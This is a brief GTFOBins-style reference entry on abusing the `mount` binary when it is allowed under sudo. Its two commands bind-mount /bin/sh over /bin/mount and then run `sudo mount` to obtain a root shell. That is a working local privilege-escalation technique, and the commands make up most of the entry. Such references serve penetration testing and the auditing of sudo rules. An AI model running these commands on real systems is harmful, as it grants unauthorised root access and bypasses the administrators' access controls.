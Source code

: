 # GTFOBin: mount

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Exploit the fact that `mount` can be executed via `sudo` to replace the `mount` binary with a shell.

```
sudo mount -o bind /bin/sh /bin/mount
sudo mount
```